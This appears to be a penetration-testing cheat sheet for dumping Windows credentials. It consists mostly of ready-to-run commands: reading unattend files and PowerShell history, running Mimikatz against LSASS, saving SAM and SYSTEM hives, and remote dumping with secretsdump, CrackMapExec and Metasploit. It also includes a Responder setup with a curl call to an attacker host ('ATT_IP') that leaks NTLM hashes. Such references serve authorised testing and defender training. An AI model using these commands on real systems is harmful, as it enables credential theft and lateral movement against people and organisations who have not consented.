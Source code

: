 # Dumping credentials

## Locally

### Interesting File System

<details>

<summary>Windows configuration file</summary>

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

</details>

<details>

<summary>Powershell History</summary>



Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands.

```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

</details>

<details>

<summary>Saved Windows Credentials</summary>

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```shell-session
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

```shell-session
runas /savecred /user:admin cmd.exe
```

***

This directory contain all credentials saved by Windows

```
cd C:\Windows\System32\config
```

</details>

<details>

<summary>IIS Configuration</summary>



Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Here is a quick way to find database connection strings on the file:

{% code title="Powershell" %}
```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
{% endcode %}

</details>

<details>

<summary>Auto Logon Credentials</summary>

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

</details>



### Retrive from Softwares

<details>

<summary>PuTTY</summary>

PuTTY is a popular SSH client for Windows. It allows users to save sessions with connection details like IP and username, so they don't have to enter them every time. Though PuTTY doesn't save SSH passwords, it does save proxy settings with plain text passwords. To find saved proxy passwords, look for the `ProxyPassword` under this registry key using the following command:

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

{% hint style="info" %}
Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
{% endhint %}

</details>



### Retrive from Revshell session

<details>

<summary>NTLM stealing with responder</summary>

Try to steal NTLM of the current session.

{% code title="attacker machine" %}
```bash
responder -I tun0
```
{% endcode %}

{% code title="revshell session" %}
```powershell
curl file://ATT_IP/file.txt
```
{% endcode %}

</details>





### Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

Then, we need to transfer the tool to dump hashes to the target machine.

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```



## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.



### Impacket's secretsdump&#x20;

```bash
impacket-secretsdump $DOMAIN.COM/$USER:$PASS@$DC_IP
```

```bash
impacket-secretsdump administrator:@$IP -hashes $LM:$NT
```



### CrackMapExec



```bash
# print all module
crackmapexec smb -L
```



#### Mimikatz

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```

#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --ntds
```

#### Dump LSASS

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --lsassy

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' -M lsassy
```



### Metasploit

If we have a open meterpreter session&#x20;

```bash
use post/windows/gather/hashdump
set SESSION
run
```





## Hash-Identify

This is a tool that simplify the hash type detection

```bash
hash-identifier
# paste your hash
```



